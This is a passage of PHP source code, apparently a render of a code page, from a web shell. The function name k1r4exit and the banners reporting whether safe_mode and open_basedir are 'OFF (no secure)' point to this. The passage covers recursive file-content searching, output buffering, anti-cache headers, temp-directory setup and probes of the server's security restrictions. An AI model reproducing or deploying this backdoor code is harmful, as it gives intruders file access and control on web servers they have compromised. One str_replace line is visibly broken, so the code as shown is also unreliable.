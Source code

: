       $r = @file_get_contents($d.$f);
      if ($a["text_wwo"]) {$a["text"] = " ".trim($a["text"])." ";}
      if (!$a["text_cs"]) {$a["text"] = strtolower($a["text"]); $r = strtolower($r);}
      if ($a["text_regexp"]) {$bool = ereg($a["text"],$r);}
      else {$bool = strpos(" ".$r,$a["text"],1);}
      if ($a["text_not"]) {$bool = !$bool;}
      if ($bool) {$found[] = $d.$f; $found_f++;}
     }
     else {$found[] = $d.$f; $found_f++;}
    }
   }
  }
 }
 closedir($h);
}
}
if ($act == "gofile") {if (is_dir($f)) {$act = "ls"; $d = $f;} else {$act = "f"; $d = dirname($f); $f = basename($f);}}
//Sending headers
@ob_start();
@ob_implicit_flush(0);
function onphpshutdown()
{
 global $gzipencode,$ft;
 if (!headers_sent() and $gzipencode and !in_array($ft,array("img","download","notepad")))
 {
  $v = @ob_get_contents();
  @ob_end_clean();
  @ob_start("ob_gzHandler");
  echo $v;
  @ob_end_flush();
 }
}
function k1r4exit()
{
 onphpshutdown();
 exit;
}
header("Expires: Mon, 26 Jul 1997 05:00:00 GMT");
header("Last-Modified: ".gmdate("D, d M Y H:i:s")." GMT");
header("Cache-Control: no-store, no-cache, must-revalidate");
header("Cache-Control: post-check=0, pre-check=0", FALSE);
header("Pragma: no-cache");
if (empty($tmpdir))
{
 $tmpdir = ini_get("upload_tmp_dir");
 if (is_dir($tmpdir)) {$tmpdir = "/tmp/";}
}
$tmpdir = realpath($tmpdir);
$tmpdir = str_replace("\",DIRECTORY_SEPARATOR,$tmpdir);
if (substr($tmpdir,-1) != DIRECTORY_SEPARATOR) {$tmpdir .= DIRECTORY_SEPARATOR;}
if (empty($tmpdir_logs)) {$tmpdir_logs = $tmpdir;}
else {$tmpdir_logs = realpath($tmpdir_logs);}
if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on")
{
 $safemode = TRUE;
 $hsafemode = "&lt;font color=red&gt;ON (secure)&lt;/font&gt;";
}
else {$safemode = FALSE; $hsafemode = "&lt;font color=green&gt;OFF (no secure)&lt;/font&gt;";}
$v = @ini_get("open_basedir");
if ($v or strtolower($v) == "on") {$openbasedir = TRUE; $hopenbasedir = "&lt;font color=red&gt;".$v."&lt;/font&gt;";}
else {$openbasedir = FALSE; $hopenbasedir = "&lt;font color=green&gt;OFF (not secure)&lt;/font&gt;";}